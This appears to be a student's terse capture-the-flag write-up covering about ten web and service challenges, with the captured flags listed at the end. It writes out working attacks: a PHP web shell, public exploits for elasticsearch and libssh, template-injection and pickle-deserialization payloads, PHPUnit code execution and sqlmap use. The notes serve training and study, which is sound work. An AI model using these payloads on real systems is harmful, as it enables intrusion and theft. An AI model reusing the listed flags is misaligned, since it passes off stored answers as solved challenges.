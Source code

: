 # dirsearch2
dirsearch

Bolt

1. view page saurce ( its written on bolt)
2. url/bolt
3. admin – password
4. file management – create file.txt enter - <?php echo system($_GET['cmd']);?>
5. rename flag.txt to file.php go to file
6. url = php?cmd=ls -l
7. php?cmd=cat /flag.txt
path traversal vulnerability 

Elastic
1. Searchsploit elasticsearch
2. 1.6.0 is our vulnerability, https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py
3. python exploit.py http://35.198.135.192:32347/ /etc/passwd

directory traversal 

Libssh

1. searchsploit libssh
2. searchsploit -m linux/remote/46307.py
3. python3 file 34.141.12.127  31367  "cd ..;cat flag.txt"
libSSH vulnerability 

Php unit

1. php unit cve (vulnerability)

1. dirsearch -u url 

2. url /composer.json

3. burp url/eval-stding.php

4. <?php system('cat /flag.txt')?>

path traversal 

Non-diff backdoor

1. Dirsearch -u url
2. Backup.zip
3. Wget url/backup.zip
4. Cd backup 
5. Grep -r “shell_exec(“
6. Cat ….php
7. url?welldone=knockknock&shazam=id 
8. =cat flag.php
9. View page source
10. 108zea
Shark

1. ${7*7}
2. Burp 
3. Submit something 
4. Name= 
<%
import os
x=os.popen(‘cat flag’).read()
%>
${x}
5. Repeater 
Vulnerability - Server Site Template Injection

Authorization

1. Python3 ./dirsearch.py -u link -w db/dicc.txt
2. /auth/client_secrets.json/robots.txt/secrets
3. Burp
4. Get -post
5. Data is In json format
6. { “username”:”admin”, “password":”admin”}
7. Get /secrets
content-type: application/json
Authorization: JWT
is ragac
vulnerability is in how the application handles user authentication and authorization JWT Implementation Issues

online-encryption

1. Traffic http filter
2. Hash 1427
3. Htlm 
4. Base64decode.org
5. Rot13.com (13 letter apart)
Poor encryption and basic obfuscation techniques are used in the handling of sensitive data during network transmission.

Sweet-and-sour

1. Curl -I link
2. Echo -n “cookie” | base64 -d
3. Nano ragaca.py
4. import pickle
import base64

import requests

 

 

class Exploit(object):

      def __reduce__ (self):

           return eval, ("open('flag', 'r').read()", )

 

def sendPayload (p):

      print (base64.urlsafe_b64encode(p))

      headers = {"Cookie":"data=" + base64.urlsafe_b64encode(p).decode ()}

      t = requests.get ("http://35.198.135.192:30562/dashboard", headers=headers)

     print (t. text)

 

sendPayload (pickle.dumps (Exploit(), protocol=2))

5. Python ragaca 
Schematics

1. Dirsearch -I link
2. %
3. Sqlmap –cookie=”PHPSESSID=…” -u link/index.php –forms –columns –random-agent




Flags:
Bolt - CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
Elastic - CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
Libssh - CTF{754a4874399c6c15f6f12d31bccb438d1d42b540e5cec9c2371a831bb1eabeed}
Phpunit - CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}
Non-diff Backdoor - CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}
Shark - CTF{4b08602e0090f81707b98ca687a5cacfd32888ffceef1d3cff2d99e6034b1e58}
Authorization - 
online-encryption - ECSC{dd545fbf12fd608daa8c201f50f95c8520bec9f744a3573b1dc0bc53ce019726}
Sweet-and-sour - 
Schematics - CTF{1nformat1on_sch3ma_c4n_cont41n_us3ful_d4t4}
